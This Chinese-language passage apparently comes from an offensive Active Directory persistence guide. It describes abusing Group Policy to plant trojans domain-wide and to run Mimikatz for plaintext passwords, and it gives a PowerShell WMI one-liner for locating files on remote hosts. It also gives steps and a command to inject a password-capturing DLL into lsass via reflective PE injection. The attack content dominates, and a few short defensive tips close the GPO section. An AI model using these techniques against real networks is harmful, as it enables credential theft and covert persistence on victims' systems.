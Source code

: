 SYSVOL 共享将自动同步并在所有域控制器之间共享。

其实我认为组策略也相当于远控, 可以把配置脚本让域内的每一台电脑都种上马批量执行一遍。

或者每周在所有域上运行 Mimikatz 获取明文密码, 以及获取某种类型文件这要通过编写脚本实现。

远程搜索某个本地文件（如 proof.txt）

```
Get-Content <list of IPs> | ForEach-Object {Getwmiobject CIM_DataFile -filter »Drive=’c:’ AND Filename=’proof’ AND extension=’txt’ -Impersonate 3 -computername $_ | Select PSComputername, Name -Unique}
```

```
一篇文章精通PowerShell Empire 2.3（上）
https://www.anquanke.com/post/id/87328
```

防：

定期审核 GPO。

为 GPO 使用定义清晰的命名约定

记录 GPO 的创建动作

### Hook PasswordChangeNotify

在修改域控密码时会进行如下同步操作：

a. 当修改域控密码时，LSA 首先调用 PasswordFileter 来判断新密码是否符合密码复杂度要求

b. 如果符合，LSA 接着调用 PasswordChangeNotify 在系统上同步更新密码

函数 PasswordChangeNotify 存在于 rassfm.dll

poc 下载地址：  

```
https://github.com/clymb3r/Misc-Windows-Hacking
```

使用 VS2015 开发环境，MFC 设置为在静态库中使用 MFC  

编译工程，生成 HookPasswordChange.dll

下载 Powershell 的 dll 注入脚本

```
https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1
```

在代码尾部添加如下代码：  

```
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll –procname lsass
```

```
并命名为HookPasswordChangeNotify.ps1
```
